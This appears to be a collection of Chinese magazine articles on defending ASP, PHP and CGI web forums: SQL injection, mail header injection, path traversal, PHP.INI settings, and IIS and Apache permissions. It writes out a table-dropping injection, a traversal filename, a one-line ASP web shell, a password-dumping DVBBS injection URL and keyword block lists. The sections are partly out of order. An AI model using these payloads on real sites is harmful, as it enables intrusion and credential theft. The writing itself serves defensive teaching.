这时，SQL 查询就会找到用户名为 shocker 的行的所有字段，而不会考虑密码的问题。因为有 `--` 这个符号，这个在 SQL 中代表注释符，它后面的内容都会成为注释内容。更进一步的话，如果我们提交：

```text
Username: shocker' drop table users--
Password: 1234567
```

我们就可以删除 `users` 表，如果 `'` 号后面还有别的内容，都会被 SQL 很好地运行，这就是我们常说的 SQL Injection 技术。使用它可以攻击存在问题的 ASP 脚本，来进行 SQL 查询和利用 SQL Server 的存储过程。一般利用的存储过程有：`xp_cmdshell`、`sp_OACreate`、`sp_OAMethod`、`sp_OAGetProperty`、`xp_regwrite`、`xp_servicecontrol`、`sp_addlogin`、`sp_addsrvrolemember` 等等。为解决这个问题，我们可以选择 3 种办法：

1) 不允许输入已知的带有攻击性的内容；  
2) 只允许输入可以输入的内容；  
3) 过滤 `'` 符号。

这 3 种方法都有各自的优点和缺点，先说第一种方法，如果我们不允许输入已知的带有攻击性的内容，我们应该这样书写一个函数：

```vb
function validate(input)
    bad_strings = Array("'", "select", "union", "insert", "--")
    for each i in bad_strings
        if (InStr(input, i) <> 0) then
            validate = false
            exit function
        end if
    next
    validate = true
end function

username = request.form("username")
password = request.form("password")
if (not validate(username) or not validate(password)) then
    response.redirect("invalid-input.asp")
end if
```

这种方法的缺点就是，如果我们想要用户可以输入 O'Brien 这样的名字，那用这种方法就不行了。

第二种方法是仅仅允许用户输入可输入的内容，我们只要定义字符集，让用户只可以输入字符集中的内容即可。举个例子，比如我们想要验证用户输入的 `name`、`password`、`integer` 和 `session_id` 变量，我们可以这样写一个有效性检查函数：

```vb
function validate(input, datatype)
    good_name_chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
    good_password_chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
    good_number_chars = "0123456789"
    good_sessionid_chars = "ABCDEF0123456789"
    validate = true
    select case datatype
    case "name"
        for i = 1 to len(input)
            c = mid(input, i, 1)
            if (InStr(good_name_chars, c) = 0) then
                validate = false
            end if
        next
    case "password"
        for i = 1 to len(input)
            c = mid(input, i, 1)
            if (InStr(good_password_chars, c) = 0) then
                validate = false
            end if
        next
    case "number"
        for i = 1 to len(input)
            c = mid(input, i, 1)
            if (InStr(good_number_chars, c) = 0) then
                validate = false
            end if
        next
    case "sessionid"
        for i = 1 to len(input)
            c = mid(input, i, 1)
            if (InStr(good_sessionid_chars, c) = 0) then
                validate = false
            end if
        next
```

但是重要的一点是，我们允许用户输入的 `name` 中含有 `'` 号、`-` 号等符号，这就又导致了用户可以提交：`Username: shocker`

所以，我们最终要解决 `'` 号的问题，解决方法就是把 `'` 号过滤为两个 `'` 号（即 `''`），函数如下：

```vb
function escape(input)
    input = replace(input, "'", "''")
    escape = input
end function
```

最好的办法就是把 3 种方法结合起来，还有就是不要用 SA 权限连接 SQL Server 服务器。

#### 2. E-mail handling 问题

现在，许多 ASP 程序都有发送 E-mail 的功能，但是许多发送 E-mail 的对象并没有检查用户输入的有效性。让我们先来看一下 SMTP 的命令。SMTP 服务器发送 E-mail 的过程所用命令及回应大概如下：

```text
< 220 mail.example.net ESMTP Tau, 3 Jan 2002 18:16:35 +0000
> HELO client
< 250 mail.example.net Hello client [10.1.1.1]
> MAIL FROM: <joe.blow@example.net>
< 250 <joe.blow@example.net> is syntactically correct
> RCPT TO: <foo.bar@example.net>
< 250 <foo.bar@example.net> is syntactically correct
> DATA
< 354 Enter message, ending with "." on a line by itself
> Subject: Test mail
> Date: Thu, 3 Jan 2002 18:14:45 -0000
>
> Got it.
> ;0)
>
> --joe
>
< 250 OK id=12345
> QUIT
< 221 mail.example.net closing connection
(server closes connection)
```

如果用户输入换行符的话，那么就等于一行结束，这就相当于 SQL 中的 `;` 号。这样，用户就可以提交换行来分割行，类似 SQL 注入那样。攻击者可以提交更多的收信人、发信人或者带有攻击性的 MIME 编码的文件附件。有关更详细的内容可以参考 http://www.ngssoftware.com/papers/aspmail.pdf 这篇文章。

#### 3. 父级路径问题

假如我们的 ASP 程序中有如下代码：

```vb
filename = "c:\logs" & username
set fs = createobject("scripting.filesystemobject")
set f = fs.OpenTextFile(filename, 8, True)
f.writeline message
f.close
set f = nothing
set fs = nothing
```

这时，如果用户输入的 `username` 变量为 `..\..\..\..\inetpub\wwwroot\runcmd.asp` 的话，那我们就可以创建一个 `runcmd.asp` 在默认的 Web 站点下。如果 `message` 变量的内容用户可以控制的话，那用户可以提交如下的内容从而制造一个 Web Shell。

```asp
<% set o = server.createobject("wscript.shell")
o.run(request.querystring("cmd")) %>
```

在 IIS 5 以前的版本中，这个 `wscript.shell` 对象将是以 system 账号运行命令的，所以可以运行只有管理员才能运行的命令。

以上 3 点都要求程序编写者要注意用户输入内容的有效性检查，其实这已经是老生常谈了，但问题依然还是广泛存在。

## 三、SESSION 变量

先给一个例子程序：

```asp
<%@LANGUAGE="VBSCRIPT"%>
<%session("username") = request("username")%>
<%strErr = ""%>
if request("action") = "login" then
    Set Conn = Server.CreateObject("ADODB.Connection")
    Conn.Open "DRIVER={Microsoft Access Driver (*.mdb)};DBQ=" & Server.MapPath("forum.mdb")
    SQL = "select username, password from users where username='" & request("username") & "'"
    set RSuser = Conn.execute(SQL)
    if RSuser("password") = request("password") then
        Response.Redirect("list.asp")
    else
        strErr = strErr & "Invalid password"
    end if
elseif request("action") = "register" then
    ......
end if
%>
```

## 四、调试代码

有些 ASP 程序员喜欢在程序中加个标志调试的变量，比如：

```text
debug=true
debug=1
trace=on
log=on
```

这样的内容，如果调试变量被提交的话，那么当代码出错的时候会显示详细的错误信息。这就导致攻击者可能猜到这类变量的名字，从而获得详细的错误信息。这些信息中可能含有 Web 绝对路径等东西，这就是前面所说的为父级路径问题提供的信息。

这个程序首先给 SESSION 变量 `username` 赋值，但是如果用户提交的 `action` 没有与程序中任何一个匹配，那么即使程序没有运行，但是 SESSION 也存在了。这样，攻击者就可以构造任意用户的 `username` 的 SESSION 变量。解决方法就是一定要注意 SESSION 的销毁问题。

## 五、源代码泄露的问题

有些编辑软件在修改完文件后会产生一个 `.bak` 的同名文件，比如下面的样子：

```text
login.asp
login.bak
login.old
login.asp.bak
login.asp.old
login.asp.2
Copy of login.asp
Copy (2) of login.asp
```

但是，`.bak`、`.old` 的文件是不被 Web 服务器软件解释的，这样当用户提交 URL 来获得这些文件的时候，他将得到的是源代码。还有就是一些 `.inc` 的配置文件也会存在代码泄漏问题，所以在写程序的时候一定要注意给这些文件都加 `.asp` 的后缀，这样才能隐藏它们的内容从而不被浏览者获得。

## 六、不要将用户名和密码直接存放

有些程序员在写程序的时候不加密用户密码，这样导致在被攻击后所有的密码都被攻击者获得。我们可以给这些代码加密，通常用 MD5，总之不要直接存放。

## 七、返回的错误信息

有些代码返回的错误信息很详细，许多文章也说过利用 SQL Injection 和 ASP 错误消息来获得 SQL Server 的数据库结构。还有刚才说过的父级路径问题，当 `filesystem` 对象出错的时候，它将根据错误的不同显示不同的错误信息，这就为攻击者进行攻击猜测时提供了方便。所以，我们要解决这个问题，就是让 ASP 脚本返回尽可能少或者根本不返回错误信息，这样就可以给攻击者造成障碍。

> 参考：Writing Secure ASP Scripts  
> Chris Anley <chris@ngsoftware.com> 2003/03  
> http://www.ngsoftware.com  
> 注：该文章中还提到了其他一些问题，但是都不是很容易攻击，也不容易出现的。所以我就没在本文中提到。

## Discuz! 论坛漏洞防范

文／PsKey

攻击中《Discuz! 论坛安全分析》一文给大家简要地介绍了 Discuz! 论坛的一些安全隐患，可以看出常见的 Web 应用程序漏洞都可以在 Discuz! 论坛中找到。一直以来，PHP+MySQL 都是很稳定的安全组合，很多时候，我们通过加强配置可以在很大程度上解决或减缓 PHP 安全问题，所以本文首先着重结合 Discuz! 论坛存在的漏洞讲解 PHP 的配置文件 PHP.INI 中与安全有关的选项。

另外，作为程序编写者，不能希望每一个运行自己程序的系统都合乎预定设置，也不能苛求每一个用户都擅长配置，而应该做到程序安全最大化。还是先看看 PHP.INI 文件中那些有趣的设置参数，这里直接给出推荐值以及相应的中文说明：

```ini
display_errors = Off
```

显示出错误信息（作为输出的一部分）。在最终发布的 Web 站点上，强烈建议你关掉这个特性，并使用错误日志代替。在最终发布的 Web 站点继续让 `display_errors` 有效可能暴露一些有关安全的信息，例如你的 Web 服务上的文件路径、你的数据库规划或别的信息。当我们把这个选项关掉后，便消除了 Discuz! 论坛物理路径泄露漏洞。

```ini
register_globals = Off
```

是否将这些 EGPCS 变量注册为全局变量。若你不想让用户数据在全局范围内混乱的话，你可能想关闭它。这和 `track_vars` 连起来用更有意义——这样你可以通过 `$HTTP_*_VARS[]` 数组访问所有的 GPC 变量。全局变量的安全问题已经讨论得够多了，无须多说，禁止 `register_globals` 选项。

《Discuz! 论坛安全分析》中提到的 Discuz! 论坛严重的跨站脚本漏洞便迎刃而解。

```ini
magic_quotes_gpc = On
```

在输入的 GET/POST/Cookie 数据里使用转义符加在引用性的控制字符上。打开这个开关后可以有效防止 SQL Injection 缺陷，推荐设置为 “On”，当然，也可以用 `addslashes` 函数消除 SQL Injection 问题。

```ini
safe_mode = On
```

打开安全模式。最重要的安全选项，限制命令执行、文件读取，打开此项将会给入侵者造成极大不便，强烈建议启用此项。

```ini
disable_functions
```

这条指示让你可以为了安全的原因让特定函数失效。它接受一个用逗号分隔的函数名列表。这条指示不受安全模式是否打开的影响。根据自己的实际情况，把无需使用的函数禁止，消除潜在的安全隐患。

```ini
open_basedir
```

设置允许打开文件的根目录，特别是使用 PHP 脚本的朋友，一定要记得设置好这个根目录。其他还有一些重要的安全设置参数，限于篇幅，就不一一罗列了。通过如上设置，我们基本上可以消除 Discuz! 论坛的安全问题。

### 后记

可能有一些朋友没有更改 PHP.INI 的权限，不过这里要我给大家写补丁显然不太现实，大家可以参考漏洞分析自己尝试减轻威胁，也可以经常去其官方网站看看，等待作者修复相关漏洞。

## LeadBBS 2.77 论坛

### 安全编程报告

- 难度等级：高
- 前置知识：ASP 程序的编写、SQL Injection 的相关知识、安全代码编写

文／天街小雨

一个好的程序往往是和作者的编写风格分不开的，任何小的差错或者是习惯上的缺陷都能让整个系统崩溃掉！今天我们就一起来探讨一下 LeadBBS 的程序编写安全要点，写 ASP 的朋友们可要注意着了。

LeadBBS，中文名字为极速论坛，是目前网上很火的一个流行论坛，最新版本为 2.77，我们这次的目标就是它的 ASP 版本。众所周知，像这样的一个 ASP 论坛程序在经历了那么多风风雨雨以后，会越来越完善，直到“不死”——何谓不死，就是过滤了重重漏洞，经过了无数次考验的论坛。

它成功的经验是什么？就是一种很好的程序写作风格！今天我们就主要分析一下其几个主要值得大家借鉴的地方，希望能给 ASP 程序员一点启迪。

上面形式的语句结构在程序中出现了很多次，ASP 程序产生注入攻击最薄弱的环节就是这种地方：`Form_SearchKey` 是从外部获取的，始终不安全，程序采用 `replace` 函数的方式来过滤外界非法字符，对程序起到了保护作用。当然程序还不是很完善，再看看其前面的代码：

```vb
If Len(Form_SearchKey) < 1 Then OkFlag = 0
If OkFlag = 1 Then Form_SearchKey = Left(Form_SearchKey,20)
```

### 对输入变量的检查

网上 SQL Injection 攻击很流行，归根到底是程序员没有对外界输入做出正确的过滤而直接采用的结果，而 LeadBBS 在对外界读入的变量进行过滤的时候就是比较彻底的，决不放过任何一个变量。

这个还对外界变量进行了长度判断，显然空串是无法注入的，这样就在某些方面提高了整体的安全性。上面这个例子是判断字符串输入的，我们再来看看判断数字变量输入的，当论坛中用户查看别的用户更多的信息的时候，URL 传入的是一个数字 ID。

```vb
Dim Rs,SQL
SQL = "select TOP 1 ID,UserName,Points,ApplyTime,Prevtime,UserLevel from LeadBBS_User where UserName='" & Replace(Form_SearchKey,"'","''") & "'"
Set Rs = Con.Execute(SQL)
```

比如 `http://10.0.0.1/User/LookUser_MoreInfo.asp?ID=1`，LeadBBS 是怎么处理的呢？

- 先取出它的左边 14 位，这样至少不会产生缓冲溢出的问题。  
  `GBL_ID = Left(Request.QueryString("ID"),14)`
- 判断不能为空，并且要是数字，否则就采用默认值赋值。

```vb
If GBL_ID = "" or isNumeric(GBL_ID) = 0 Then
    GBL_ID = 0
    '// 赋值完还要对其进行数字转换，很严格！
    GBL_ID = cCur(GBL_ID)
    If GBL_ID = 0 Then
        GBL_ID = GBL_UserID
        GBL_LookUserID = GBL_ID
    Else
        GBL_LookUserID = GBL_ID
    End If
End If
```

这种处理方式是不是比起直接用下面这样的字符串安全多了？

```sql
select * from admin where id=" & request("ID")
```

LeadBBS 对外界输入都比较严格，这样才能使程序更加坚固，虽然烦琐了一点，但是安全性自然是非常的好。

### 对上传文件的过滤

初学者一般对 ASP 的文件上传十分感兴趣，但是往往对网络安全知识知道得甚少，所以编写出来的上传程序漏洞百出，还是让我们从 LeadBBS 里面学点经验吧。

LeadBBS 对上传文件按下面的流程操作：

- 建立文件上传组件，失败了就退出，成功则继续。
- 对文件格式进行检查。如果上传文件为空或者上传的文件名字不是允许的扩展名（如 ra、ram、rm、asf、wma、jpg、gif、jpeg、jpe、png、zip、rar、bmp、mp3、swf、wav、txt、doc、rtf、psd、tif、mid、sgi、tga、iff、pcx、dcx、pbm、pgm、ppm、pnm、miff、xbm、xpm、ico、icl、emf、hru、jif、prc、wrl、wbmp 等）则退出。
- 程序交给上传组件再做二次检查，层层过滤；包括文件大小、文件覆盖、目录是否存在、文件类型等等。

### 利用用户输入的过滤检查

作为一个论坛功能，需要用户输入资料是常见的事情，但是如果用户输入的资料中含有脚本代码，那么当文件再次显现出来的时候就可能给用户带来不必要的麻烦。

我常常去一个信息发布站点，这个站点可以让大家发布自己的信息。但有些朋友喜欢捣蛋，就在留言板里面输入：`<script>alert('我到此一游')</script>`。当数据库接收了这些信息再次显示出来的时候不就是一个 JS 脚本吗？大家只要看看这个帖子就会弹出对话框来。知道 LeadBBS 这方面是怎么做的吗？

```vb
LeadBBS：Response.Write Server.HTMLEncode(Form_data)

' LeadBBS 对每个输入字符进行 HTMLEncode 处理
TextBody = TextBody & "------" & VbCrLf
MailBody = MailBody & VbCrLf & "<b>" & htmlencode(Form_UserName) & "您好</b>"
TextBody = TextBody & htmlencode(Form_UserName) & "您好：" & VbCrLf & VbCrLf
MailBody = MailBody & "谢谢您注册本论坛，下面是您的注册信息！<BR><BR>"
TextBody = TextBody & "谢谢您注册本论坛，下面是您的注册信息！" & VbCrLf
MailBody = MailBody & "用户名：" & htmlencode(Form_UserName) & "<BR>"
TextBody = TextBody & "用户名：" & htmlencode(Form_UserName) & VbCrLf
```

经过这个函数处理过的所有字符都不再是特殊字符了，在 LeadBBS 中很多地方用到了这个函数。

### 对 Cookie 的使用建议

Cookie 是微软的“小甜饼”，可不是白吃的，要吃可能要付出相当大的安全代价！网上通过 Cookie 进行攻击的例子数不胜数，LeadBBS 给我们的安全建议考虑的方面很完善（从代码中看出）：尽量少使用 Cookie，即使是要用 Cookie 也要使 Cookie 像对待输入变量一样，进行过滤处理。

还有非常重要的一点：没有过滤的 Cookie 最好不要拿去作为操作数据库的变量。

LeadBBS 的做法是：

```asp
Form_Username = Response.Cookies(DEF_MasterCookies)("user")
Form_Username = Replace(Form_Username, "'", "''")
```

如果 Cookie 里面的是数字信息，那么我们应该这样处理：

```asp
Form_Userid = Response.Cookies(DEF_MasterCookies)("userid")
Form_Userid = Replace(Form_Userid, "'", "''")
Form_Userid = CCur(Form_Userid)
```

对！就是数值范围转换。当 Cookie 不是数字，或者数字太大，就会出现内部错误，这样至少不会被人来一个注入攻击！

能用了，这段核心代码是这样写的：

```asp
Dim HomeUrl
u = LCase(Request.ServerVariables("HTTP_REFERER"))
HomeUrl = "http://" & Request.ServerVariables("SERVER_NAME")
If Request.ServerVariables("SERVER_PORT") <> "80" Then HomeUrl = HomeUrl & ":" & Request.ServerVariables("SERVER_PORT")
If Left(u, Len(HomeUrl)) <> HomeUrl Then u = ""
If InStr(u, "/user/hidden.asp") > 0 Then u = ""
```

好了，就说这么多了。多多实际操作，多多细致思考，相信你的程序会安全很多！

**总结：** 入侵一个程序，必须对这个程序有一定的了解，甚至程序处理的细节你也要知道，这样才能找到细微的漏洞从而成功进入系统！对编写者来说，使用上面的思路来对你程序中需要修改的地方进行修改，那样会使你的程序变成一个更可靠的城堡！

## 不要给入侵者任何机会

大家可能看到，LeadBBS 把所有的过滤做得差不多了。可能它为了不给入侵者任何机会，还判断用户提交的页面是不是来自服务器自身。有的用户把页面存为 HTML 文件，然后对 HTML 页面进行修改，接着再提交，原来比较有用，但在这里就不能用了。

> **编后：**
>
> 小编写程序的时候常常也犯上面的错误，不知道会不会被有心人利用来做破坏。希望喜欢编写程序的朋友在写程序上面下功夫，注意程序的写作风格，风格树人，风格造就好程序。

（上接第112页）

```asp
Response.Redirect "Admin_login.asp"
Else
Session("Admins") = Admin_password
Session("passwords") = Admin_name
Response.Redirect "Admin_admin.asp"
End If
rs.Close
Set rs = Nothing
```

这样，通过精心设计整个系统的权限认证过程，就能够基本上杜绝逻辑错误的产生。另外再提一点，不少人喜欢将 Admin_login.asp 管理员登录界面或管理界面删除或改名，以此防范非法用户登录，实际上这是一种错误。

第一，ASP 程序本就是为了给用户提供方便的操作，不要给自己找麻烦；第二，删除或改名的应该是产生登录 Session 的 admin_chklogin.asp 文件，不要自欺欺人。只要能够得到判断管理员的登录信息（比如 Session 或 Cookies），就可以直接 POST 数据给后台那些控制数据库操作的文件，登录界面或管理界面都只是摆设而已。

以上都只是根据漏洞的形成原因，从编写代码的角度来看待的。

### 脚本攻击防范

SCRIPTS ATTACK DEFENCE

## 动网论坛 6.0 版 + SP2 的严重漏洞防范篇

文 / sagaboy

动网论坛 6.0 版 + SP2 存在严重漏洞，想必大家已经看过不少文章的分析，遭受攻击的用户也为数不少。那么如何防范就成了我们关注的焦点，且看本文作者如何来应对。

### 漏洞剖析

首先到网上去下载一个动网 6.0 的论坛程序，看看 tongji.asp 里面到底是哪些代码会造成以上这个漏洞。

在文件 tongji.asp 中有语句：

```asp
If Request("orders") = 1 Then
    Call tongji()
ElseIf Request("orders") = 2 Then
    Call topuser()
Else
    Call tongji()
End If
```

```asp
Response.Write "document.write('<FONT color=#b70000>□</FONT><span style=""font-size: 9pt; line-height: 15pt""><a href=http://www.pydz.com/sunwinbbs/dispuser.asp?name='& rs(0) &' target=_blank title=查看'&rs(0)&'的个人资料>')"
Response.Write "document.write('"&rs(0)&"</a>')"
Response.Write "document.write('</span><br>')"
...
rs.MoveNext
Loop
rs.Close
Set rs = Nothing
conn.Close
Set conn = Nothing
End Sub
```

我们构造的请求中“orders=2”表示程序中做出的动作是“call topuser()”，所以 tongji.asp 里面出问题的地方就是过程 topuser()，如下：

从这里，我们可以看出当我们提交一个非法连接“tongji.asp?orders=2&n=-24%20userpassword,”时，提交的 n 值是：“24%20userpassword,”，其中“24”表明输出记录的条数，“%20”是空格的另一种表示法。

这个程序的执行过程中，语句实际情况如下：

```asp
Sub topuser()
    Set rs = Server.CreateObject("adodb.recordset")
    sql = "select top "&Request("n")&" username,useremail,userclass,oicq,homepage,article,addDate from [user] order by article desc"
    rs.Open sql,conn,1,1
    Do While Not RS.Eof
    ...
```

```sql
sql = "select top 24 userpassword,username,useremail,userclass,oicq,homepage,article,addDate from [user] order by article desc"
```

输出部分为：“response.write \"document.write('"&rs(0)&"</a>')\"”，输出的是 rs(0)，即第一个字段，就是我们构造的 userpassword，这样就输出了我们指定的内容，同样你也可以构造其他的……

## 小谈 CGI 安全

## ——从 Web 服务器配置入手

随着防火墙技术的发展以及人们对服务器本身安全性的重视，未来的主流攻击方向将逐渐转向 Web 端口。CGI 程序本身的安全性是程序员的事情，这对于某些管理员来说他们是无能为力的。但我们仍然可以通过正确合理的配置，使我们的 Web 服务器降低 CGI 程序本身安全问题所带来的各种威胁。本文是从 CGI 安全角度来描述两种主流 Web 服务器（IIS 和 APACHE）的具体配置，相信这样配置之后，我们的服务器安全性会得到很大提高。

### 一、Windows + IIS 环境

由于 Windows + IIS + CGI 本身的安全性并不好，所以会出现的问题比较多。好比 PsKey 最近发现的一批 LB5000 论坛漏洞，这些漏洞都是基于 Windows + IIS 平台的。因为在 Windows + IIS 环境中，CGI 程序文件权限没有可执行和不可执行一说。所以，只要是在有脚本执行权限的虚拟目录里，CGI 文件都会被执行，这就带来了很多安全上的问题。PsKey 发现的几个漏洞都是往 CGI 文件里写入符合 Perl 语法的语句，来构造一个小型 WebShell。而对于一个功能强大的 CGI 程序来说，自然不可能面面俱到，多多少少都会存在一些可被利用的输入处理问题。

### 漏洞防范

从上面我们可以看出，问题出在对于输入字符串没有进行安全过滤，是利用 rs(0) 这条语句造成的。知道了它出问题的原因，我们就能找出方法解决它。简单解决方法如下：

- 1. 最简单的方法就是删除 tongji.asp 中的 sub topuser() 这个过程或 tongji.asp 这个文件，对论坛影响不大。
- 2. 对于追求完美的朋友来讲，我们可以这样做，将 `request("n")` 改为 `replace(request("n"),"'","")`，这句的意思是将“n”中的“'”替换为空；即删除“n”中的“'”。再将 `n = replace(request("n"),"'","")`，凡文中出现 request("n") 的地方都用 n 代替。如果有人构造这种特殊连接请求，就会出错而出现“HTTP 500 - 内部服务器错误”的提示，这样别人就看不到你论坛中的敏感东西了！
- 3. 将文中的 `rs(0)` 改为 `rs("username")`，和它原本的意思是一样的，都是打印出用户名列表。这样改了过后，无论他如何构造连接请求，显示出来的始终是用户名列表。如果你连用户名列表都不想让非法用户看到，就按（1）的方法办好了。
- 4. 只要晓得了原理，防范方法很多，这里就不啰嗦了！

出一些问题也属正常。但只要控制好虚拟目录的权限，危险性将会大大降低。

**Pig_j 在一旁幸灾乐祸：** 呵呵，看来以后 PsKey 的生意难做喽！

现在我们以 LB 为例。对于 LB 来说，它本身很多地方已经做得很好了，但其安全问题大多数就是由于对一些字符的过滤不严所造成的。在 IIS 中默认情况下，子目录将继承父目录的权限，如果一个目录被设置了“脚本和可执行程序”权限，那么其子目录也将有“脚本和可执行程序”权限。所以，只要将 LB5000 论坛所在目录设置为可执行，将其子目录全设为不可执行，这些问题就迎刃而解了。因为即使你可以在其子目录的一些文件里写入 WebShell，但由于子目录没有执行权限，一样没用。

图 1

**Pig_j 又发话了：** PsKey 曾公布的 Search.cgi 文件漏洞（见后文）不就是利用了 search 目录的可执行权限吗？！呵呵，肯定有管理员朋友正在心疼：“早知道，我的网站就不会瘫痪了。”

LB 的 CGI 程序和数据文件结构是这样设计的：将需要执行的 CGI 程序文件与一些 .cgi 后缀的数据文件放在不同目录中。我们强烈建议写程序时这样做，因为这样管理员就只需要按要求去设置虚拟目录权限了。

现在，让我们来一步一步对 IIS 虚拟目录进行设置吧。

图 2

- 1. 开始→运行，输入：`%SystemRoot%\System32\Inetsrv\iis.msc`，打开“Internet 服务管理器”，如图 1 所示。
- 2. 选中将要设置的 IIS 虚拟目录，点击右键→属性，将 LB 论坛的 cgi-bin 目录设置为许可执行“纯脚本”，如图 2 所示。
- 3. 然后再逐一对 cgi-bin 目录的子目录进行设置，比如对 cgi-bin/data 目录进行设置，选中 data 目录，点击右键→属性，将可执行设置为“无”。这样一来，在此目录中的 CGI 程序将不允许被执行，如图 3 所示。

图 3

按照这个方法，将 cgi-bin 目录下的每一个子目录的可执行权限都设置为“无”。最后，还要将 non-cgi 目录进行设置，一般也将可执行权限设置为“无”。

好了，我们对论坛的目录权限设置就结束了。这样一来，即使论坛再被发现有什么过滤不严密的漏洞；只要他无法执行被写入 WebShell 的文件，一样不能达到入侵的目的。但我不敢保证不会出现任何问题，因为对于 CGI 漏洞的攻击千奇百怪、出其不意，很难说将来会不会出现新的攻击方法。但是，这样设置绝对可以很大程度地降低 CGI 程序本身所带来的威胁。

## 二、Windows + APACHE 环境

由于默认安装 APACHE 服务器是以 SYSTEM 权限启动，这一点和 IIS 不同。在 IIS 中，如果 CGI 程序解释程序不在 LM/W3SVC/InProcessIsapiApps 中的话，它的权限是继承 DLLHOST.EXE 的 IWAM_MACHINENAME 权限。但 APACHE 一旦启动，所有 CGI 程序都会继承 apache.exe 的 SYSTEM 权限，所以极其危险。一旦一个 CGI 程序出现问题，那么服务器将被完全控制。如果你真的想在 Windows 上跑 APACHE，强烈建议另建一个 GUESTS 组用户，用这个新建用户启动 APACHE 服务。这种情况下对 CGI 程序本身来说，其安全性要比 IIS 中稍好些。因为 APACHE 中，CGI 程序的解释器是在程序首行定义的，如：`#!c:/perl/bin/perl`，而 IIS 则是在 LM/W3SVC/ScriptMaps 中。如果首行没有定义，那么 CGI 程序运行将出错。所以，如果要想利用程序漏洞写出一个可以成功执行的 WebShell，是有一定难度的，但这并不代表不可以。我在测试中发现，其实首行不需要写全路径，写成这样也可以：`#!perl`。因为在安装 ActivePerl 的时候，会在环境变量 PATH 中自动加上 perl.exe 的路径，所以我们成功利用这种漏洞的困难减少了。当然在这种环境下，我们也可以对 APACHE 配置文件 httpd.conf 进行合理配置，以降低来自 CGI 程序本身带来的威胁。

下面我们来对 APACHE 服务及其配置文件 httpd.conf 进行配置。

- 1. 在正确安装好 APACHE 服务器后，新建一个用户，并将其从原来的 USERS 组中删除，再加到 GUESTS 组中，命令如下：

```bash
net user apacheuser newpassword /add
net localgroup users apacheuser /del
net localgroup guests apacheuser /add
```

- 2. 将 APACHE 安装目录（如：C:\apache）的权限设置为 apacheuser 只读和执行，其他非 administrators 组用户拒绝访问。还要将 `c:\apache\logs` 目录设置为可写和可修改，不然 APACHE 会运行出错，不能启动。命令如下：

```bash
cacls c:\apache /e /d everyone
cacls c:\apache /e /g administrators:F
cacls c:\apache /e /g apacheuser:R
cacls c:\apache\logs /e /g apacheuser:C
```

- 3. 现在再让 APACHE 服务以这个新建用户 apacheuser 来启动。开始→运行，输入：`services.msc`，如图 4 所示：

图 4

选中 apache 服务这一项，然后点右键→属性→登录→此账户→浏览，选择我们刚才新建的那个用户（这里以 apacheuser 为例），在下面的密码框里输入用户密码（这里是 newpassword），然后一路“确定”下去，如图 5 所示：

图 5

这样，APACHE 服务就设置好了。接着，我们再来对 httpd.conf 进行设置，还是以 LB5000 论坛为例。我们要对 LB 的每个目录进行详细设置，需要在 httpd.conf 文件中添加一些内容。

- 4. 先设置 cgi-bin 目录如下：

```apache
ScriptAlias /LB5000/cgi-bin/ "d:/inetpub/wwwroot/LB5000/cgi-bin/"
<Directory "d:/inetpub/wwwroot/LB5000/cgi-bin/">
AllowOverride None
Options ExecCGI
Order allow,deny
Allow from all
</Directory>
```

- 5. 然后再一一设置其子目录，这里只以 cgi-bin/data 目录为例，其他的以此类推：

```apache
Alias /LB5000/cgi-bin/data/ "d:/inetpub/wwwroot/LB5000/cgi-bin/data/"
<Directory "d:/inetpub/wwwroot/LB5000/cgi-bin/data/">
AllowOverride None
Options None
Order allow,deny
Allow from all
</Directory>
```

- 6. 最后，别忘了设置 non-cgi 目录：

```apache
Alias /LB5000/non-cgi/ "d:/inetpub/wwwroot/LB5000/non-cgi/"
<Directory "d:/inetpub/wwwroot/LB5000/non-cgi/">
AllowOverride None
Options None
Order allow,deny
Allow from all
</Directory>
```

到这里，Windows 环境下的 APACHE 基本上设置好了。

## 三、Linux/Unix + APACHE 环境

这种环境相对于前两种来说，安全性高得多。首先，一个 CGI 程序要执行，那么在文件系统中必须要有可执行权限，即 +x。你有能力在 .cgi 文件里写一个完整的 WebShell，但并不代表你可以让它有执行权限。其次，还要在虚拟目录里定义可执行。所以，这种配置的 CGI 程序安全问题大多数都出在提交非法数据暴露敏感文件以及直接执行程序等方面。而这些与配置关系不大，所以我也就不赘述了。

> 后记：
>
> 好了，经过上面的详细配置之后，应该说可以增强 Web 服务器的安全性，但也不一定就很安全了，这还要看 CGI 程序的结构。一般的编写结构是这样的：把所有需要执行的程序集中放到一个目录，在配置 Web 服务器时给这个目录执行脚本的权限，其他所有目录都不要给执行脚本的权限。所有需要读写的数据文件集中放到另一个目录，在设置虚拟目录时不要给这个目录任何权限，如有必要也可以将它放到 Web 目录以外的目录。将一些自己写的模块文件和函数文件集中放到一个目录，设置虚拟目录时不要给任何权限，包括访问权限。到这里，关于 Web 服务器的配置就差不多了。本人对 CGI 的研究也非常有限，希望这篇文章能起到抛砖引玉的作用。

## 浅谈路径泄露

文 / Tread

路径泄露（Path Disclosure）是属于低风险等级（Low Risk）一类的缺陷，它的危害一般被描述为“攻击者可以利用此漏洞得到的信息对系统进行进一步的攻击”。提供 Web、FTP 和 SMTP 等公共服务的服务器都有可能出现物理路径泄露的问题。

我们比较常见的是与 Web 服务器有关的路径泄露公告。导致 Web 服务器路径泄露的原因有很多，可能是 Web 平台本身、脚本语言解释器、引擎插件、组件、辅助程序等一些原因造成的，但最有可能的是脚本编写错误导致的。很多时候，攻击者精心构造一个畸形的、超长的或不存在的文件请求，而这个请求是 Web 服务器没有预料且不能正确处理的，这时往往会返回出错信息，最直观的就是暴露物理路径。譬如，对于很多 CGI 论坛来说，提交一个不存在的 CGI 文件请求，或者提交一个没有输出的 CGI 文件的请求，它们会将网站本身所在的物理路径给暴露出来。笔者做过很多试验，的确非常轻松就可以拿到对方网站的物理路径。

得到物理路径到底有什么用？这是很多攻击者关心的问题。如果把“路径泄露”这个缺陷分化出去单独讨论，那肯定没有什么意义。但把它放到完整的入侵过程来看，有些时候的确能给攻击者带来一些有用的信息，比如说：可以大致了解系统的文件目录结构；可以看出系统所使用的第三方软件；也说不定你因此得到了一个合法的用户名（因为很多人把自己的名字作为网站的目录名）。另外，就是很多时候你的攻击程序需要对方完整的物理路径。当然，当你发现路径是系统的默认路径时，你可能会说：哦，管理员的安全水平很低啊……也许你认为这些不值什么，但很多入侵行为持续绕了几个大圈子无功而返后，最后却还是利用了一个自己忽略的小缺陷成功了！漏洞无处不在，发现它是门艺术，利用它同样是门艺术。

